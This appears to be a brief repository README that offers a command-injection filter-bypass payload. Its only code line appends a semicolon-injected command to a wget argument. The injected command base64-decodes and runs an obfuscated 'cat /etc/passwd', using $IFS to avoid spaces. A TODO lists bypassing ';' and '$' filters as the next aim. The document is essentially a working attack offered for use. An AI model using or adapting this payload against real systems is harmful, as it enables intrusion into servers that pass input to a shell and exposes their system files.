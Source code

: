# latrina
bypass url encoding with nontrivial commands

```
wget https://github.com/kusky3/latrina/raw/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c<<<$a)
```

# TODO
bypass ; and $
